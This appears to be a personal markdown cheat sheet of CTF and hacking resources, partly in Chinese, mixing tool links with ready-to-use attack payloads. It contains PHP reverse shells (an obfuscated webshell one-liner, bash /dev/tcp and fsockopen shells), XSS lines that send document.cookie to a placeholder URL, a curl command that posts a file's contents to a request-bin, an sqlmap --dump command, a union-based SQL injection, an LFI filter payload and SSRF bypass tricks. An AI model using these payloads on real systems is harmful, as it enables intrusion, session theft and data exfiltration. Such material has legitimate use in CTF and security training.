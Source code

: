 # Tools

## CTF Tools

* [CyberShef](https://gchq.github.io/CyberChef/#input=8J%2BNo/CfjbTwn42m8J%2BMtPCfjaLwn4278J%2BNs/CfjbTwn42l8J%2BNp/CfjaHwn42u8J%2BMsPCfjafwn42y8J%2BNofCfjbDwn42o8J%2BNufCfjZ/wn42i8J%2BNufCfjZ/wn42l8J%2BNrfCfjLDwn4yw8J%2BMsPCfjLDwn4yw8J%2BMsPCfjarwn42p8J%2BNvQo)
* [Hack Tricks](https://book.hacktricks.xyz/tunneling-and-port-forwarding)
* [Command Injection](https://blog.zeddyu.info/2019/01/17/%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/#%E5%8F%8D%E5%BC%95%E5%8F%B7%EF%BC%88%E9%87%8D%E9%9F%B3%E7%AC%A6%EF%BC%89)

### Web Shell
* https://www.webshell.cc/4422.html

### Reverse Shell
* [Reverse Shell大全](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) 
* [GitHub List Rev](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

### Crypto
* https://blog.csdn.net/qq_38780085/article/details/79305488
* [BrainFuck](https://gist.github.com/maxcountryman/1699708)

## 生活駭客

* [Word 放 Code](http://www.planetb.ca/projects/syntaxHighlighter)
* [Android 螢幕投影](https://www.google.com/search?q=apowermirror&oq=apowermirror&aqs=chrome..69i57j0l7.5587j0j7&sourceid=chrome&ie=UTF-8)
* [Bash Command Search](https://ss64.com/)
* [7z-CLI-用法](https://www.cnblogs.com/sparkdev/p/5598062.html)
    ```bash
    7z.exe a <target> <source: 只能用相對路徑>
    ```
* [PCHunter Tool](https://www.bleepingcomputer.com/download/pc-hunter/)
    * Windows系統訊息查看，輔助殺毒文件
* curl 配 request-bin 傳檔
    ```bash
    (echo -n '{"payload": "'; <file>; echo '"}') | curl -H "Content-Type: application/json" -d @- <requests-bin url>
    ```

## Hacking Trick

### MD5 Collision
* somd5.com
* cmd5.com

## Paid Software Download

* [免費Java - OpenJDK download](https://adoptopenjdk.net/)
* [Patch My PC](https://patchmypc.com/home-updater)

## Shodan
![](https://i.imgur.com/qBAtBQB.png)

## Reverse Shell Upload File

* https://ironhackers.es/en/cheatsheet/transferir-archivos-post-explotacion-cheatsheet


## SQLMAP

### download source

```bash
git clone https://github.com/sqlmapproject/sqlmap
```

### 起手式

```python
python sqlmap.py -o --random-a -u "url" --tamper base64encode -D <DB> -T <TABLE> --dump
```

### 各種參數

- https://xz.aliyun.com/t/3010

```
--dbs
--schema
--batch
-D
-T
--data="<post 參數>"
--random-agent
--tamper base64encode
-technique=U,B --union-cols=number --dbms-mysql
```
### app.any.run

* https://app.any.run/

### 手打

```
union select 1,2,group_concat(schema_name),4 from information_schema.schemata#
```

## PHP

### reverse shell

#### linux
```php
<?=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);
```

```php
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/<ip>/<port> 0>&1'");
?>
```

```php
php -r '$sock=fsockopen(<ip>,<port>);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### LFI

```
/?path=php://filter/convert.base64-encode/resource=index.php
```

### SSRF繞過
- `127.0.0.0/8`
- `redirect`
- `http://@127.0.0.1`

```
gethostbyname('127.0.0.1') == '127.0.0.1'
gethostbyname('localhost') == '127.0.0.1'
gethostbyname('localtest.me') == '127.0.0.1'
gethostbyname('@127.0.0.1') == '@127.0.0.1'
```

## XSS

```html
<script>var i=new Image;i.src="<url>/?"+document.cookie;</script>
<svg/onload="document.location='<url>/?'+document.cookie">
```

## 滲透相關，有點東西

* https://ironhackers.es/en/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/